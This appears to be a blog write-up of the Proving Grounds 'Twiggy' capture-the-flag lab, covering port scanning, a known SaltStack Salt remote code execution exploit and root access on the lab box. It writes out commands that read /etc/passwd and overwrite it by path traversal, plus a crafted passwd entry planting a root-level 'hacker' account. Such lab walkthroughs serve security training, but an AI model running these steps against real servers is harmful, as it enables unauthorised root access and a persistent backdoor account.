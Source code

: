 ```yaml
---
title: "Proving grounds Practice: Twiggy"
layout: post
date: 2023-08-27 01:00
categories: writeup
---
```


Proving grounds Practice - Twiggy CTF writeup.

## Nmap

```sh
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4 (protocol 2.0)
53/tcp   open  domain  NLnet Labs NSD
80/tcp   open  http    nginx 1.16.1
4505/tcp open  zmtp    ZeroMQ ZMTP 2.0
4506/tcp open  zmtp    ZeroMQ ZMTP 2.0
8000/tcp open  http    nginx 1.16.1
```

## Web
### PORT: 80

![img](/assets/images/CTF/Proving_Grounds/Twiggy/twiggy.png)

### PORT: 8000

![img](/assets/images/CTF/Proving_Grounds/Twiggy/8000.png)

The SaltStack Salt REST API is running.

![img](/assets/images/CTF/Proving_Grounds/Twiggy/salt.png)

SaltStack is vulnerable to [Saltstack 3000.1 - Remote Code Execution](https://www.exploit-db.com/exploits/48421)

## Exploitation

```sh
python exploit.py --master 192.168.174.62 --read /etc/passwd
```

![img](/assets/images/CTF/Proving_Grounds/Twiggy/read.png)

unable to obtain reverse shell using the `--exec` command in the exploit but we will be able to create and add our own new user account to the `/etc/passwd` file.

### Create new user

```sh
openssl passwd hacked
$1$iBeMKMaU$.O3VYqCZxUvapPL.OQ97/1
```

`hacked` is the password.

Add the following to the `/etc/passwd` content we have extracted from the attacking machine.

```text
hacker:$1$iBeMKMaU$.O3VYqCZxUvapPL.OQ97/1:0:0:root:/root:/bin/bash
```

**Writing /etc/passwd file**

```sh
python exploit.py --master 192.168.174.62 --upload-src passwd --upload-dest ../../../../../../../../../../etc/passwd
```

![img](/assets/images/CTF/Proving_Grounds/Twiggy/write.png)

**Verify the user existence**

![img](/assets/images/CTF/Proving_Grounds/Twiggy/verify.png)

SSH to the attacking machine using the username as `hacker` and password `hacked`.

![img](/assets/images/CTF/Proving_Grounds/Twiggy/root.png)

**Root Obtained**

Thanks for reading!

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr). 
